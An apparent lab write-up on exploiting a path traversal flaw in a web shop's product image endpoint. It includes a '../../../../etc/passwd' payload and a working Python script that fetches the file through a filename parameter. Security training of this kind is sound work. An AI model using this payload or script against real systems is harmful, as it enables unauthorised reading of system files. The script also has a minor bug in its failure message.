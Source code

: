 This lab contains a path traversal vulnerability in the display of product images.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

---

**Goal:** Exploit the path traversal vulnerability in the display of product images.

**Analysis:** First i locate the vulnerable page which is located when i right click on one of the app images and open it in a new tab. I refresh the page in burpsuite with intercept on, and send the request to repeater. This shows me the vulnerable product image path. Then i can simply use path traversal to exploit the web server. 

![[Pasted image 20240827160526.png]]

**Payload:** 

```php
../../../../etc/passwd
```

**Script:**

```python
#!/usr/bin/python3

import sys
import requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

# Exploit path traversal attack on the vuln image path
def exploit(url):
	get_file = url + '/image?filename=../../../../etc/passwd'
	r = requests.get(get_file, verify=False, proxies=proxies)
	if 'root' in r.text:
		print('(+) Exploit worked...\n(+) Printing contents now:')
		print(r.text)
	
	else:
		('(-) Exploit failed.')

# User instructions
def main():
	if len(sys.argv) != 2:
		print('(+) Usage: %s <URL>' % sys.argv[0])
		print('(+) Example: %s www.example.com' % sys.argv[0])
		sys.exit(-1)
		
	url = sys.argv[1]
	exploit(url)	
	
if __name__ == '__main__':
	main() 
```


